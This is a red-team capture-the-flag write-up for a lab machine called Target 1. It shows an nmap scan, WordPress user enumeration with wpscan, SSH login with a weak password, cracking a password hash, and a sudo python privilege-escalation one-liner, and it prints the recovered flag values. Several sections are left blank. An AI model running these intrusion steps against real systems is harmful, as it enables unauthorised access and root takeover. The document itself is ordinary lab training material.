


# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:
``` bash
$ nmap -sV -O 192.168.1.110

Nmap scan report for 192.168.1.110
Host is up (0.00069s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 (Debian)
111/tcp open  rpcbind     2-4 (RPC 100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH
  - Apache Web Server
  - rpcbind
  - SMB

The following vulnerabilities were identified on each target:
- Target 1
  - Network response to ping requests
  - Weak password for Michael
  - Python sudo privilege access for user Steven

- 
- 
- 


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
- `flag1.txt`: `flag1{b9bbcb33e11b80be759c4e844862482d}`
  - **Exploit Used**
    - View source on `http://192.168.1.110/service.html`
    - 


- `flag2.txt`: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`
  - **Exploit Used**
    - `wpscan --url http://192.168.1.110/wordpress -enumerate u` revealed users Michael and Steven.
    - `ssh michael@192.168.1.110` password `michael` (weak password)

    - 


- `flag3.txt`: `flag3{afc01ab56b50591e7dccf93122770cd2}`
  - **Exploit Used**
    - 

    - After finding the MySQL DB username and password, I was able to log in and find flag03 and a password hash for Steven
    -   
    - I used JohnTheRipper to crack the password hash for Steven
    - 


- `flag4.txt`: `flag4{715dea6c055b9fe3337544932f2941ce}`
  - **Exploit Used**
    - Steven had root privileges for python so I was able to get root access with the following code. ```sudo python -c 'import pty; pty.spawn("bin/bash")' ```

    - 
